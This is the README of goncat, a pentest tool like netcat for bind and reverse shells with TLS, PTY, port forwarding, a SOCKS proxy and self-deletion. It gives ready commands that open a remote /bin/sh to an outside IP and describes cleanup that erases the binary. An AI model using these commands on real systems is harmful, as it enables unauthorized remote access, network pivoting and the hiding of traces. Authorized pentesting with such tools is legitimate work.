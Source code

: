 # goncat

[![Build and Test](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml/badge.svg)](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml)

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience.
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP CONNECT and UDP ASSOCIATE supported, but no authentication).
Lastly, there are a few other convenience features such as session logging
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:

*   Reverse shell
    *   On your machine: `goncat master listen 'tcp://*:12345' --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
    *   Remote: `goncat slave connect tcp://11.22.33.44:12345` to connect the remote side as a slave, which will execute `/bin/sh`.
*   Bind shell
    *   Remote: `goncat slave listen 'tcp://*:12345'` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
    *   On your machine: `goncat master connect tcp://55.66.77.88:12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Supported protocols include `tcp` (plain TCP connection), `ws` and `wss` (websocket connections), and `udp` (UDP with QUIC for reliability).

Advanced features can be enabled with additional flags:

*   Encryption: add `--ssl` on both ends to enable TLS encryption, which applies to all connections regardless of the protocol
*   Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
*   PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
*   Local TCP port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
    be forwarded through the slave to `google.com:443`
*   Remote TCP port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
    be forwarded through the master to `google.com:443`
*   SOCKS TCP/UDP proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side (now with UDP support)
*   Logging: as master, add `--log /tmp/log.txt` to log the session to a file
*   Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only.
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky.
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.
